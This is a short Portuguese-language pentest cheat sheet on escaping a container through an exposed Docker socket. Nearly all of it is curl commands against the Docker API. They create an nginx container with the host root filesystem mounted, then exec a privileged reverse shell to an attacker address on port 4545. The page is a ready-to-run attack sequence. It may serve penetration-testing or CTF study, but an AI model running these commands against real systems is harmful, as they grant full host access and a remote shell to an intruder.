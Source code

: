Listar os contêineres:
```sh
$ curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json
```

Agora que sabemos os contêineres que existem, podemos criar algum (`nginx:latest`) e mapear o sistema de arquivo do host em `hostfs`. Este comando irá retornar um `id`
```sh
curl -i -s -k -X POST -H 'Content-Type: application/json' --data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "nginx:latest","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}' http://localhost/containers/create --unix-socket /var/run/docker.sock
```

Agora iremos iniciar o container utilizando o id que obtivemos:
```sh
curl -X POST --unix-socket /run/docker.sock http://localhost/containers/<container_id>/start
```

Podemos especificar um comando para ser executado, estaremos passando uma reverse shell:
```sh
curl -i -s -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["/bin/bash", "-c", "bash -i >& /dev/tcp/<ip-vpn>/4545 0>&1"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http://localhost/containers/<container_id>/exec --unix-socket /var/run/docker.sock
```

Com o id que obtivemos, teremos que usar na seguinte requisição
```sh
curl -i -s -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost/exec/<EXEC-ID>/start --unix-socket /run/docker.sock
```

#### Referência
https://0xn3va.gitbook.io/cheat-sheets/container/escaping/exposed-docker-socket


